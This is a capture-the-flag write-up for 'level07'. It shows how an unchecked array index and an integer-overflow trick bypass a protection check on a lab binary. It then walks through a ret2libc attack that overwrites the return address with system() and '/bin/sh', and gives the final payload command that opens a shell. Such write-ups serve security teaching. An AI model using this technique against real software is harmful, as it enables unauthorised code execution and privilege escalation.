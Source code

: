 # Level07
## What does the binary do
After reversing the binary, we can see :
- We have an array (data[100]) in which we can store and read values.
- The catch is that some index are protected for wil (the admin maybe) by : ``` (index % 3 == 0) || ((number >> 24) == 0xb7) ```

But, it doesn't check if the index is under 100.
So, we can probably read and store something in the memory !

## Understand what we can find with the data array being unprotected
To find something interesting, we started at index 101, which is where the array overflows on the memory.

At data[114], we find 4158936339 which is 0xf7e45513 in hexadecimal.
When looking at this address in gdb with : ```x/i 0xf7e45513```

We get: ```data[114] = 0xf7e45513 → __libc_start_main+243``` 

Which means:
This is the return address used by the main. The address the function will jump to when it finishes the program.

The problem:
We can't save a value in data[114] because it is protected by the condition : ```if index % 3 == 0```

So we tried overwriting the index 114 with a value that is not a multiple of 3. 
Then we tried INT MAX + 114 ``` 2147483648 + 114 = 2147483762```

```2147483762 % 3 = 2``` so we bypass the condition and can overwrite data[114] this way.

## The exploit
We thought of using the same technique as in level 04, where we overwrite the exit function with the address of the system function, and then we call the system function with the address of "/bin/sh" as an argument.

## Look for addresses
We use gdb to look for both addresses.
To do so, we first break inside the main function and run the file to load and see the addresses.

```
p system
```
This will give us the address of system

### Get libc memory range:
```
info proc map
```
We need to note down the start and end addresses of libc, which we will use to find "/bin/sh"

### Find the `/bin/sh` string inside libc:
```
find <libc_start>, <libc_end>, "/bin/sh"
```
This gives us the address to use as an argument with the system() call.

## The final payload

- system() address is 0xf7e6aed0
- "/bin/sh" address is 0xf7f897ec

We can see both these addresses are the same as in level04, because the libc used is the same.

Then, we convert both addresses in their hexadecimal values, giving us :
system() value is 4159090384.

The value of `"/bin/sh"` is 4160264172.

We store the system() value in data[114], nothing in data[115], it will be our padding of 4 and finally the "/bin/sh" value in data[116]

```(python -c 'print "store"'; python -c 'print "4159090384"'; python -c 'print "2147483762"'; python -c 'print "store"'; python -c 'print "4160264172"'; python -c 'print "116"'; python -c 'print "quit"'; cat) | ./level07```